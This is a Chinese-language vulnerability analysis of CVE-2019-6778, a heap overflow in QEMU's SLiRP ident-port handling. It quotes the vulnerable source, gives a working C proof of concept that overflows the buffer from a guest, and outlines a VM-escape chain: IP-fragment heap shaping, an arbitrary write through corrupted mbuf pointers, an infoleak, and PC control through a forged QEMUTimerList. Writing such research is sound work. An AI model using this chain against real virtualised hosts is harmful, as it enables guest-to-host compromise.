


## 漏洞成因与细节

此漏洞存在于QEMU的网络模块SLiRP中。SLiRP模块主要模拟了网络应用层协议，其中包括IP协议（v4和v6）、DHCP协议、ARP协议等，在sourceforge上有一个[古老的版本源码](https://sourceforge.net/projects/slirp/files/#files)，QEMU源码中的slirp代码和这里的十分相似，可能是基于他再开发？引人注意的是，slirp模块很久未做修改，但是他是QEMU中默认的网络模块，所以其安全性很值得研究。

在模拟tcp协议时，slirp中对几个特别的端口进行了特殊处理，其中包括端口113(*Identification protocol*)，21(*ftp*)，544(*kshell*)，6667 6668(*IRC*)……在处理这些特殊的端口时，需要对用户数据进行操作，一不小心就会出现问题。**CVE-2019-6778**就是slirp处理113端口的tcp请求时，未验证buffer剩余空间是否足够，直接拷贝用户数据导致的堆溢出。

```C
// slirp/tcp_subr.c:tcp_emu
case EMU_IDENT:
		/*
		 * Identification protocol as per rfc-1413
		 */

		{
			struct socket *tmpso;
			struct sockaddr_in addr;
			socklen_t addrlen = sizeof(struct sockaddr_in);
			struct sbuf *so_rcv = &so->so_rcv;

			memcpy(so_rcv->sb_wptr, m->m_data, m->m_len);	// 复制用户data至sbuf
			so_rcv->sb_wptr += m->m_len;
			so_rcv->sb_rptr += m->m_len;
			m->m_data[m->m_len] = 0; /* NULL terminate */
			if (strchr(m->m_data, '\r') || strchr(m->m_data, '\n')) {
				...
			}
			m_free(m);
			return 0;
		}
```

slirp模块中有两个重要的数据结构，一个是mbuf，一个是sbuf，mbuf是存储用户从ip层传入的数据的结构，而sbuf是存储tcp层中数据的结构体。他们的定义分别如下：

```c
// slirp/mbuf.h
struct mbuf {
	/* XXX should union some of these! */
	/* header at beginning of each mbuf: */
	struct	mbuf *m_next;		/* Linked list of mbufs */
	struct	mbuf *m_prev;
	struct	mbuf *m_nextpkt;	/* Next packet in queue/record */
	struct	mbuf *m_prevpkt;	/* Flags aren't used in the output queue */
	int	m_flags;		/* Misc flags */
	int	m_size;			/* Size of mbuf, from m_dat or m_ext */
	struct	socket *m_so;
	caddr_t	m_data;			/* Current location of data */
	int	m_len;			/* Amount of data in this mbuf, from m_data */
	Slirp *slirp;
	bool	resolution_requested;
	uint64_t expiration_date;
	char   *m_ext;
	/* start of dynamic buffer area, must be last element */
	char    m_dat[];
};
```

```c
// slirp/sbuf.h
struct sbuf {
	uint32_t sb_cc;		/* actual chars in buffer */
	uint32_t sb_datalen;	/* Length of data  */
	char	*sb_wptr;	/* write pointer. points to where the next
				 * bytes should be written in the sbuf */
	char	*sb_rptr;	/* read pointer. points to where the next
				 * byte should be read from the sbuf */
	char	*sb_data;	/* Actual data */
};
```

可以看到在模拟ident协议时，程序拷贝了mbuf中的用户data至sbuf中，同时将sb_wptr和sb_rptr向后加上拷贝的字节数，但是这里程序并未对sb_cc进行任何的操作，在上一层的函数的验证，

```c
// slirp/sbuf.h
#define sbspace(sb) ((sb)->sb_datalen - (sb)->sb_cc)

// slirp/tcp_input.c:tcp_input
    } else if (ti->ti_ack == tp->snd_una &&
		    tcpfrag_list_empty(tp) &&
		    ti->ti_len <= sbspace(&so->so_rcv)) {	// 这里验证sbuf中是否有足够空间
			...
			if (so->so_emu) {
				if (tcp_emu(so,m)) sbappend(so, m);
```

在调用tcp_emu之前，会验证sbuf中的剩余空间是否足够，但是由于在模拟ident协议时拷贝了数据却并未加上相应的长度进sb_cc，这样使得sbspace计算出来的空间并不是sbuf实际的剩余空间。

所以如果用户一直向113端口发送数据的话，那就会造成在sbuf中的溢出。

poc如下：

```c
// poc.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
    int s, ret;
    struct sockaddr_in ip_addr;
    char buf[0x500];

    s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2"); // host IP
    ip_addr.sin_port = htons(113); // vulnerable port
    ret = connect(s, (struct sockaddr *)&ip_addr, sizeof(struct sockaddr_in));
    memset(buf, 'A', 0x500);
    while(1) {
        write(s, buf, 0x500);
    }
    return 0;
}
```

在host中运行`sudo nc -lvv 113`，再在guest中运行poc中即可。注意这里不一定要连接host，只要任何guest可以连接的IP都可以。

## CVE-2019-6778漏洞修复



漏洞修复很简单，在拷贝数据前验证sbuf中剩余空间是否足够。

## 漏洞利用

由于溢出发生处是在一块纯buffer，前后的数据在实际运行中都是不稳定的，所以需要一个适当的手段来控制堆。

### Malloc Primitive

##### IP分片(IP fragmentation)

> **IP fragmentation** is an [Internet Protocol](https://en.wikipedia.org/wiki/Internet_Protocol) (IP) process that breaks [packets](https://en.wikipedia.org/wiki/Network_packet) into smaller pieces (fragments), so that the resulting pieces can pass through a link with a smaller [maximum transmission unit](https://en.wikipedia.org/wiki/Maximum_transmission_unit)(MTU) than the original packet size. The fragments are reassembled by the receiving [host](https://en.wikipedia.org/wiki/Host_(network)).



在IPv4中，IP分片存在于两个mtu不一样的网络之间传输数据，如果一个较大的packet想传输到一个mtu较小的网络中，那么就需要将这个packet分片后再发送，在IP头中就有专门的字段来满足这一需求。

- Zero (1 bit)，为0，不使用。
- Do not fragment flag (1 bit)，表示这个packet是否为分片的。
- More fragments following flag (1 bit)，表示这是后续还有没有包，即此包是否为分片序列中的最后一个。
- Fragmentation offset (13 bits)，表示此包数据在重组时的偏移。

##### IP分片在qemu中的实现

```c
void ip_input(struct mbuf *m)
{
  ...
	/*
	 * If offset or IP_MF are set, must reassemble.
	 * Otherwise, nothing need be done.
	 * (We could look in the reassembly queue to see
	 * if the packet was previously fragmented,
	 * but it's not worth the time; just let them time out.)
	 *
	 * XXX This should fail, don't fragment yet
	 */
	if (ip->ip_off &~ IP_DF) {
		...
		/*
		 * If datagram marked as having more fragments
		 * or if this is not the first fragment,
		 * attempt reassembly; if it succeeds, proceed.
		 */
		if (ip->ip_tos & 1 || ip->ip_off) {
			ip = ip_reass(slirp, ip, fp);
      if (ip == NULL)
				return; // 这里直接return了
			m = dtom(slirp, ip);
		} else
	...
}
```

在试图重组ip包时，如果重组函数返回NULL，这表示当前的分片序列并没有结束，这样这个包就不会被接下来的流程处理，而会直接return！

这意味着我们可以在内存中任意分配IP包（也就是mbuf），这将是一个非常好的malloc原语(primitive)。

### Arbitrary write

前文说过，在IP层处理数据所用的数据结构为mbuf，mbuf中有m_data字段是指向实际数据的指针，是个非常好的溢出对象。

在IP分片中，当某个包的MF bit被置1时，qemu会把前面存储下的包进行组装

```c
// slirp/ip_input.c:ip_reass
  while (q != (struct ipasfrag*)&fp->frag_link) {
	  struct mbuf *t = dtom(slirp, q);
	  q = (struct ipasfrag *) q->ipf_next;
	  m_cat(m, t);
	}

// slirp/mbuf.c:m_cat
void m_cat(struct mbuf *m, struct mbuf *n)
{
	/*
	 * If there's no room, realloc
	 */
	if (M_FREEROOM(m) < n->m_len)
		m_inc(m, m->m_len + n->m_len);
	memcpy(m->m_data+m->m_len, n->m_data, n->m_len);
	m->m_len += n->m_len;
	m_free(n);
}
```

在ip_reass中会遍历存储IP序列的链表，将后续所有的包m_cat到第一个包中，m_cat中将第二个mbuf中的数据拷贝到第一个mbuf中。注意memcpy中是根据m_data和m_len来计算目标地址，**溢出这个结构体将会给我们一个任意地址写的能力**。

### Infoleak

想要任意地址写的前提是我们需要一个leak。好消息是由于溢出的字节数是我们可以控制，因此我们可以修改地址的低位。leak的计划就将是：

1. 溢出修改m_data的低位，在堆的前面写入一个伪造的ICMP包头。
2. 发送一个ICMP请求，将MF bit置位（1）。
3. 第二次溢出修改第二步的m_data的低位至伪造的包头地址。
4. 发送MF bit为0的包结束ICMP请求。
5. 接收来自host的礼物。

~~这里留给读者一个问题，在返回ICMP echo reply的时候，qemu会检查ICMP包头的checksum，这里是如何解决的？~~

这样完成了infoleak，我们可以得到qemu-system的基址以及slirp所使用的堆基址。

### Control PC

现在的问题转化为，在已知基址的情况下，如何利用任意地址写对程序执行流的控制？

一些失败的尝试：

- got表不可写，qemu程序现代的保护手段全开。
- 在堆中寻找函数指针，可以找到一些，但是地址不稳定且难以触发。
- slirp模块中不存在包含函数指针的结构体。
- 别的模块有函数指针，如e1000网卡的结构体，但是他们和slirp模块并不在一个堆块。
- ……

最终，在全局段上找到了我们的目标对象：QEMUTimerList。

```c
// util/qemu-timer.c
struct QEMUTimerList {
    QEMUClock *clock;
    QemuMutex active_timers_lock;
    QEMUTimer *active_timers;
    QLIST_ENTRY(QEMUTimerList) list;
    QEMUTimerListNotifyCB *notify_cb;
    void *notify_opaque;

    /* lightweight method to mark the end of timerlist's running */
    QemuEvent timers_done_ev;
};

// include/qemu/timer.h
struct QEMUTimer {
    int64_t expire_time;        /* in nanoseconds */
    QEMUTimerList *timer_list;
    QEMUTimerCB *cb;  // 函数指针
    void *opaque;     // 参数
    QEMUTimer *next;
    int attributes;
    int scale;
};
```

在QEMUTimer中，expire_time时间到了以后，将会执行cb(opaque)。

全局的bss段上的main_loop_tlg，是QEMUTimerList的数组，在堆中伪造一个QEMUTimerList，覆盖其地址到全局的main_loop_tlg，PC controlled！